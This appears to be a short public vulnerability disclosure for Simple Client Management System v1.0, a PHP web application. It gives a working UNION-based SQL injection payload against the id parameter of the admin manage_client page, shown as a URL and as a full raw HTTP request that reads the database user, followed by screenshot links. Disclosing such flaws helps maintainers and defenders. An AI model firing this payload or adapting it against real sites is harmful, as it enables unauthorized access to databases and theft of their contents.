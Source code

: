 # Simple-Client-mMnagement-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: \cms\admin\?page=client/manage_client&id=

Vulnerability location: /cms/admin/?page=client/manage_client&id=, id

[+] Payload: ip/cms/admin/?page=client/manage_client&id=2' union select 1,user(),3,4,5,6,7 --+

```sql
 GET /cms/admin/?page=client/manage_client&id=2%27%20union%20select%201,user(),3,4,5,6,7%20--+ HTTP/1.1 // Leak place ---> id
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/164882693-1f5fdbaa-6e5a-4061-aaa9-918f935d75af.png)

![image](https://user-images.githubusercontent.com/54017627/164882658-e5618b55-9703-4679-a3ec-28fc5c5c2e52.png)
